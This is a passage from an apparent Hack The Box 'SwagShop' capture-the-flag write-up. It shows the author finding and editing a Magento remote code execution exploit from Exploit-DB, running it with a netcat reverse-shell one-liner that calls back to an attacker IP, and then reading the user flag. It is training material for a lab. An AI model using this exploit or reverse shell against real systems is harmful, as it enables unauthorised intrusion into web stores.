 ```bash
Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Process Bypass                                                                                                     | php/webapps/48135.php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                                                   
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/swagshop]
└─$ searchsploit -m exploits/php/webapps/37811.py
  Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
      URL: https://www.exploit-db.com/exploits/37811
     Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /hackthebox/oscp-prep/swagshop/37811.py
```

I already downloaded an exploit. Because I had problems with multiple python installations, I changed the script a little. I added parentheses in the print statements and it worked with python3. You also need to change the login credentials in the script:

```python
# Config.
username = 'ypwq'
password = '123'
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # Must be same as /app/etc/local.xml
```

Now, start a netcat listener and run the script again with this command:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/swagshop]
└─$ python magento_rce.py '[http://10.10.10.140/index.php/admin](http://10.10.10.140/index.php/admin)' "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 4444 >/tmp/f"
```

Now, I have a shell.

## User Flag

---

I have permissions to read the user flag:

```bash
www-data@swagshop:/home/haris$ cat user.txt
a448**************************c8
```

# Privilege Escalation

---
